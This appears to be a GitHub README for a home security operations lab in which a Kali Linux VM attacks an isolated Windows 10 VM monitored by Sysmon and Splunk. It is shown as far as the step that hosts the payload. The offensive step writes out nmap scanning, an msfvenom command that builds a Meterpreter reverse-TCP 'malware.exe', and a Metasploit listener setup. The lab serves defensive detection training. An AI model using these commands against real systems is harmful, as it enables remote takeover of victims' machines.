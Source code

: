 <p align="center">
<img src="https://i.imgur.com/yGtOeVI.jpeg" alt="Basic Home SOC Lab Steps"/>
</p>

<br>
<h1>Building a Basic Home SOC Lab for Threat Detection and Analysis</h1>



<h2>Project Description</h2>
This project details the setup of a fundamental Security Operations Center (SOC) lab environment utilizing VirtualBox. The lab integrates a Kali Linux virtual machine (VM) for simulating attacks and a Windows 10 VM configured with Sysmon and Splunk for advanced log collection and centralized security information and event management (SIEM) capabilities. The objective is to demonstrate the process of launching a simulated attack (using Nmap, msfvenom, and Metasploit) to establish a reverse TCP shell, interpret detailed telemetry via Sysmon, and analyze attack patterns and behaviors within Splunk to understand real-time detection opportunities. This project showcases practical skills in cybersecurity lab setup, offensive security simulation, and defensive security analysis.



<h2>Environments and Technologies Used</h2>

- <b>Virtualization:</b> VirtualBox
- <b>SIEM:</b> Splunk Enterprise
- <b>Endpoint Telemetry:</b> Sysmon
- <b>Offensive Security Tools:</b> Nmap, Msfvenom, Metasploit Framework



<h2>Operating Systems Used</h2>

- <b>Kali Linux VM:</b> Used as the attacker machine, hosting offensive security tools.
- <b>Windows 10 VM:</b> Configured as the victim machine, with security tools for log generation and aggregation.



<h2>Overview of Steps</h2>
1. <b>Virtual Machine Setup:</b> Creation of isolated Kali Linux and Windows 10 VMs within VirtualBox to establish a sandboxed lab environment.
<br>
2. <b>Defensive Tool Deployment:</b> Installation and configuration of Sysmon and Splunk on the Windows 10 VM for comprehensive log aggregation and analysis.
<br>
3. <b>Offensive Simulation:</b> Utilization of msfvenom, Metasploit, and Nmap to generate a malware payload, establish a reverse TCP shell connection, and conduct network scanning to generate security logs.
<br>
4. <b>Log Ingestion and Analysis:</b> Configuration of Splunk to ingest Sysmon-generated logs, followed by analysis of these logs to identify and interpret attack patterns.


<p>
<h2>Project Walkthrough</h2>
<h3> Step 1: Virtual Machine Setup </h3>
1. Download VirtualBox and its associated hash file. Verify the integrity of the downloaded VirtualBox installer by comparing its SHA256 hash with the one provided on the official VirtualBox website. This confirms that the file was not corrupted during transit. <br>
<img src="https://i.imgur.com/C0JCgwB.png" alt="Disk Sanitization Steps"/>
<br>
<img src="https://i.imgur.com/4a3jLg3.png" alt="Disk Sanitization Steps"/>
<br>
2. Install VirtualBox. Prepare the Windows 10 virtual machine by installing the Windows ISO file.
<br>
<img src="https://i.imgur.com/rYoTIzL.png" alt="Basic Home SOC Lab Steps"/>
<br />
3. Configure the Windows 10 VM settings, including assigning 5120 MB of base memory and 4 processors (Always remember to choose your memory and processor settings according to your system capacity). Set the network adapter to "Internal Network" with the name 'mytest' to ensure a sandboxed environment.
<br>
<img src="https://i.imgur.com/617njbE.png" alt="Basic Home SOC Lab Steps"/>
<br />
4. Download a pre-built Kali Linux virtual machine image from the official Kali Linux website, specifically designed for VirtualBox. Set up the Kali Linux VM in VirtualBox. Configure its settings, including assigning 2048 MB of base memory and 4 processors.
<br>
<img src="https://i.imgur.com/nRpMGec.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/sJV0QRq.png" alt="Basic Home SOC Lab Steps"/>
<br>
5. To ensure a completely isolated environment, create an internal network named 'mytest' in the network adapter settings for both the Kali Linux and Windows 10 VMs. This isolates the lab from the host machine and external networks.
<br>
<img src="https://i.imgur.com/sVbKyvJ.png" alt="Basic Home SOC Lab Steps"/>
<br>
6. Take snapshots of both VMs' states. This provides a backup to revert to a known working state if any configuration errors occur.
<br>
<img src="https://i.imgur.com/XxKSAAS.png" alt="Basic Home SOC Lab Steps"/>
<br>
<h3> Step 2: Network Configuration</h3>
1. Within the Windows 10 VM, navigate to the network adapter settings, locate the IPv4 configuration, and assign a static IP address to the virtual network adapter.
<br>
<img src="https://i.imgur.com/wWsmInc.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/CFUoWpO.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/d8L2Ys7.png" alt="Basic Home SOC Lab Steps"/>
<br>
2. Configure the Kali Linux VM with a static IP address. This is done by editing the wired connection settings and manually setting the IP address, netmask, and gateway. <i>Temporarily change the adapter setting to NAT for internet connectivity to download Sysmon and Splunk on the Windows VM, then revert to the internal network. </i>
<br>
<img src="https://i.imgur.com/8Oee3q9.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/OTGxo18.png" alt="Basic Home SOC Lab Steps"/>
<br>
<h3> Step 3: Defensive Tool Deployment (Windows 10 VM)</h3>
<br>
1. Access the main webpage for Sysmon on the Windows VM and then navigate to its GitHub page to download the Sysmon configuration repository's raw data. 
<br>
<img src="https://i.imgur.com/d8bskfs.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/m7ouL8r.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/K9RjhyV.png" alt="Basic Home SOC Lab Steps"/>
<br>
2. Extract the downloaded Sysmon files within the Windows VM.
<br>
<img src="https://i.imgur.com/eYRprN7.png" alt="Basic Home SOC Lab Steps"/>
<br>
3. Open PowerShell as administrator, navigate to the directory where Sysmon was extracted, and use the command to install Sysmon onto the system with the desired configuration.
<br>
<img src="https://i.imgur.com/1WcNCCU.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/fLCFNsO.png" alt="Basic Home SOC Lab Steps"/>
<br>
4. Confirm Sysmon's successful installation by checking the list of running services on the Windows VM.
<br>
<img src="https://i.imgur.com/b3E5X4O.png" alt="Basic Home SOC Lab Steps"/>
<br>
5. Download Splunk Enterprise and proceed with its installation on the Windows VM. After the installation, log into the Splunk web interface via a browser within the Windows VM.
<br>
<img src="https://i.imgur.com/l4kRr6M.png" alt="Basic Home SOC Lab Steps"/>
<br>
<h3> Step 4: Offensive Simulation (Kali Linux VM & Windows 10 VM)</h3>
1. From the Kali Linux machine, use Nmap (e.g., nmap -A [Windows_VM_IP_Address] -Pn) to scan the Windows 10 VM and identify open ports and services.
<br>
<img src="https://i.imgur.com/YTJAUkw.png" alt="Basic Home SOC Lab Steps"/>
<br>
2. Use msfvenom to create a malware payload designed to establish a reverse shell.
<br>
<img src="https://i.imgur.com/OqC0ItW.png" alt="Basic Home SOC Lab Steps"/>
<br>
Identify available payloads using <i>msfvenom --l payloads </i>
<br>
<img src="https://i.imgur.com/PDdvU4u.png" alt="Basic Home SOC Lab Steps"/>
<br>
Select the <i>windows/x64/meterpreter_reverse_tcp</i> payload.
<br>
<img src="https://i.imgur.com/i9se2bg.png" alt="Basic Home SOC Lab Steps"/>
<br>
Construct the malware using a command similar to <i>msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=[Kali_IP] LPORT=[Port] -f exe -o malware.exe </i>, where LHOST is the Kali Linux machine's IP address. 
<br>
<img src="https://i.imgur.com/F7dYAZe.png" alt="Basic Home SOC Lab Steps"/>
<br>
3. Set Up Metasploit Listener. Open <i>msfconsole</i> on the Kali Linux Machine. Configure a multi-handler to listen for the incoming connection by setting the payload type <i>set payload windows/x64/meterpreter_reverse_tcp</i> and the LHOST to the Kali Linux VM's IP Address. Then start the exploit with the command <i>exploit</i> to initiate the listener
<br>
<img src="https://i.imgur.com/bRgFSm1.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/6z0fqr0.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/CpisCKg.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/FuSSrUn.png" alt="Basic Home SOC Lab Steps"/>
<br>
<img src="https://i.imgur.com/R0p7T2M.png" alt="Basic Home SOC Lab Steps"/>
<br>
4. Host Payload wiht HTTP Server. Set up a simple HTTP server on the Kali Linux machine to host the generated malware payload, allowing the Windows VM to download it. This typically involves opening a new terminal tab and using a command like 

</p>
<br>
<img src="" alt="Basic Home SOC Lab Steps"/>
<br>
